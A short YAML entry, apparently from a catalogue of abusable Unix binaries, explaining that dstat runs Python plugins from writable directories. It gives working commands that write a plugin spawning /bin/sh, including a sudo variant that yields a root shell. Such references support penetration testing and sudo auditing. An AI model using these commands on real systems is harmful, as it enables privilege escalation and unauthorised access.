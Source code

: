 ```yaml
---
description: |
  `dstat` allows you to run arbitrary [`python`](/ptbins/python/) scripts loaded as "external plugins" if they are located in one of the directories stated in the `dstat` man page under "FILES":

  1. `~/.dstat/`
  2. `(path of binary)/plugins/`
  3. `/usr/share/dstat/`
  4. `/usr/local/share/dstat/`

  Pick the one that you can write into.
functions:
  shell:
    - code: |
        mkdir -p ~/.dstat
        echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
        dstat --xxx
  sudo:
    - code: |
        echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
        sudo dstat --xxx
---
```

